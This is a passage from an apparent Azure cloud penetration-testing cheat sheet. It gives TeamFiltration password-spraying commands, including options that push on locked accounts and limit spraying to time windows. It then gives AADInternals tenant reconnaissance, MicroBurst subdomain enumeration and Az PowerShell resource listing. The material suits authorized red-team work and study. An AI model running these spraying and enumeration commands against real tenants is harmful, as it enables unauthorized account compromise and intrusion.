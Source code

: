     TeamFiltration.exe --outpath  C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --spray --push-locked --months-only --exclude C:\Clients\2021\FooBar\Exclude_Emails.txt
    TeamFiltration.exe --outpath  C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --spray --passwords C:\Clients\2021\FooBar\Generic\Passwords.txt --time-window 13:00-22:00
    ```

## Azure Services Enumeration

### Enumerate Tenant Domains

Extract openly available information for the given tenant: [aadinternals.com/osint](https://aadinternals.com/osint/)

```ps1
Invoke-AADIntReconAsOutsider -DomainName <DOMAIN>
Invoke-AADIntReconAsOutsider -Domain "company.com" | Format-Table
Invoke-AADIntReconAsOutsider -UserName "user@company.com" | Format-Table
```


### Enumerate Azure Subdomains

```powershell
PS> . C:\Tools\MicroBurst\Misc\InvokeEnumerateAzureSubDomains.ps1
PS> Invoke-EnumerateAzureSubDomains -Base <TENANT NAME> -Verbose
Subdomain Service
--------- -------
<TENANT NAME>.mail.protection.outlook.com Email
<TENANT NAME>.onmicrosoft.com Microsoft Hosted Domain
```

### Enumerate Services

* Using Az Powershell module
    ```powershell
    # Enumerate resources
    PS Az> Get-AzResource

    # List all VM's the user has access to
    PS Az> Get-AzVM 

    # Get all webapps
    PS Az> Get-AzWebApp | ?{$_.Kind -notmatch "functionapp"}

    # Get all function apps
    PS Az> Get-AzFunctionApp

    # List all storage accounts
    PS Az> Get-AzStorageAccount
